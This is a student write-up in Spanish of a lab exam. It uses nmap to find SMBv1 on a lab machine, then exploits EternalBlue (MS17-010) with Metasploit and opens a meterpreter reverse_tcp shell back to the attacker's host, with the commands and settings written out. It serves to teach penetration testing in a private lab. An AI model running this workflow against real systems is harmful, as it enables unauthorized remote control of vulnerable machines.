 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 18:10:00 -05:00
categories: [Reconnaisance, Kill Chain, Pentesting]
tags: [nmap, kali, metasploit]  # TAG names should always be lowercase
---
```



# RESOLUCION DE EXAMEN PARCIAL

para iniciar con nuestro laboratorio tenemos que :
para nuestra maquina kalilinux: 10.0.2.9
para nuestra maquina metasploit: 10.0.2.4
![virtual](/assets/images/virtual.png)

con ello podremos realizar nuestro primer paso:

1. Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
```bash 
        nmap -sV -p- -oA smb_scan 10.0.2.4.
```


donde:
- -sV: Realiza una detección de versión de los servicios.
- -p-: Escanea todos los puertos, del 1 al 65535.
- -oA smb_scan: Guarda los resultados del escaneo en archivos con el prefijo 
"smb_scan".
- 10.0.2.4: es la IP de nuestra victima.

![dos](/assets/images/dos.png)

 
obteniendo como respuesta la siguiente imagen:
![tres][def]

[def]: /assets/images/tres.png

por lo que averiguo un poco mas sobre el SMBv1 y ejecuto este otro comando:
```bash 
        nmap -p 139,445 --script=smb-protocols <10.0.2.4>
```
explicando un poco a lo averiguado:
- los puertos 139 y 445 son los puertos asociados con el servicio SMB.
- El flag --script=smb-protocols indica a Nmap que utilice el script "smb-protocols" para enumerar los protocolos SMB habilitados en el servidor.
- Al analizar la salida del comando, busco específicamente el término "SMBv1" o "NT LM 0.12" en la lista de protocolos SMB detectados.
- Si veo una línea que indica "SMBv1: Enabled" o "NT LM 0.12: Supported", entonces puedo confirmar que el servicio SMBv1 está habilitado en el servidor objetivo.

gracias a la ayuda del tip brindado, y obtengo la siguiente respuesta:
![cuatri](/assets/images/cuatro.png)

explicando un poco mas lo encontrado respecto al comando de nmap en los puertos 139,445. Segun lo que muestra estos puertos estan abiertos, el puerto 139/tcp es un servicio netbios -ssn, el puerto 445/tcp es un servicio microsoft-ds y estos puertos estan asociados con el servicio SMB.

smb-protocols fue utilizado para enumerar los protocolos SMB habilitados, el resultado muestra que el protocolo NT LM 0.12 o SMBv1 esta presente, y se lo describe como peligroso pero esta como predeterminado. Esto indica que el servidor tiene habilitado el servicio SMBv1 que en un principio se habia habilitado segun las indicaciones del docente. Algo adicional que se podria indicar es que el escaneo se completo en 0.22 segundos.

2. segun los resultados del escaneo con NMAP, el servidor objetivo tiene habilitado el servicio SMBv1, lo cual lo hace vulnerable a diversos ataques, entre ellos el exploit eternalBlue MS17-010.

* segun su tip, para explotar esta vulnerabilidad utilizaremos el framework metasploit y seleccionare el modulo:
```bash 
        exploit/windows/smb/ms17_010_eternalblue
```
## pasos
 para ejecutar el modulo entraremos primero a metasploit con el comando 
 ```bash 
        msfconsole -q
```

luego usaremos el modulo:
```bash 
        use exploit/windows/smb/ms17_010_eternalblue
```
donde configuraremos los parametros necesarios para el exploit, por ejemplo:
- set RHOSTS 10.0.2.4
- set LHOST 10.0.2.9
- set RPORT 445

![cinco](/assets/images/cinco.png)

![seis](/assets/images/seis.png)

explicando un poco lo que se ha realizado, es que este modulo aprovecha la vulnerabilidad CVE-2017-0143, conocida como EternalBlue, que afecta a la implementacion del protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar el codigo arbitrario en el sistema objetivo a traves de un desbordamiento de bufer en el procesamiento de paquetes SMB maliciosos.

Al ejecutar este modulo, metasploit enviara los payloads SMB necesarios para explotar esta vulnerabilidad y establecer una conexion de reverse shell desde el sistema objetivo hacia nuestra maquina atacante. Esto permitira obtener acceso remoto y control sobre el sistema objetivo.

![siete](/assets/images/siete.png)

segun la respuesta de este modulo se puede apreciar que metasploit identifica que el servidor objetivo 10.0.2.4 es vulnerable a MS17-010 EternalBlue, que afecta a windows.
se establece una conexion con el servidor objetivo para realizar la explotacion, una vez realizada esta conexion se procede a un volcado del bufer de memoria cruda del servidor, se envian los payload SMB maliciosos para explotar la vulnerabilidad. 
La expotacion se completa con exito, indicado por la salida ETERNALBLUE overwrite completed successfully, posterior a ello se envia una señal de control a la conexion corrupta. 

adicionalmente indico un tip el cual era realizar un payload, este "windows/x64/meterpreter/reverse_tcp", nos permite obtener una seseion de meterpreter despues de que el exploit sea ejecutado con exito. Este establecere una conexion de reverse shell.

![ocho](/assets/images/ocho.png)

una vez generado este exploit procedo a documentar primero la sesion meterpreter en la maquina victima si el ataque es exitoso.

![nueve](/assets/images/nueve.png)

para mi caso el mensaje de salida de metasploid indica que, METERPRETER SESION 2 OPENEDED 10.0.2.9:4444   10.0.2.4:49279  2024-11-03 a las 16:25:03 -8


![nueve](/assets/images/nueve.png)

esto confirmaria que la explotacion fue exitosa y se establecio una sesion de meterpreter en la maquina atacante y el servidor objetivo.


